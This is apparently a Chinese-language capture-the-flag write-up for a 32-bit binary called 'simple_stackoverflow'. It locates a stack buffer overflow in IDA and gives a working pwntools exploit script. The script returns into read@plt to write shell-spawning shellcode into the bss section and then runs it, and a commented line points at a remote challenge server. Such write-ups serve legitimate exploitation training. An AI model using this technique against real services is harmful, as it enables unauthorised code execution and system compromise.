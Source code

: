 ### simple_stackoverflow

32位保护全关

![](https://i.loli.net/2019/10/21/mkil1sFO69yCLdg.png)

直接运行：

![](https://i.loli.net/2019/10/21/yVNpjnbGex3rXSA.png)

IDA分析，在``main()``里面的``overflow()``里面，变量``buf``距离栈底为``0x20``，而``read``可以从终端输入取最多``0x3FF``字节写入到``buf``中，这里就存在**栈溢出**。

![](https://i.loli.net/2019/10/21/notYXBFqyhTAZ63.png)

这里利用栈溢出控制指针，再次调用read函数向某地址写入shellcode之后，然后控制指针运行到shellcode。写入地址选择固定地址如bss段、data段（地址在IDA ctrl+s 查找），我就选择写入

![](https://i.loli.net/2019/10/21/JtCkh64BWxSv27D.png)

然后问题就是怎么给溢出后调用的read传参。read函数有三个参数，32位传参看图：

![](https://i.loli.net/2019/10/21/x93fAE4KZreycT2.png)

#### 脚本

```python
from pwn import *

context.log_level = 'debug'

shellcode = asm(shellcraft.sh())

p = process("./simple_stackoverflow")
#p = remote("139.199.10.70",10004)

payload = 'a' * (0x20 + 0x4) + p32(0x08048390) + p32(0x0804A040) + p32(0) + p32(0x0804A040) + p32(len(shellcode))

p.sendline(payload)
p.sendline(shellcode)

p.interactive()
```

覆写eip的read函数地址应该是plt表中read地址，而不是read函数地址。即填入IDA中``_read``地址，而不是``read``地址

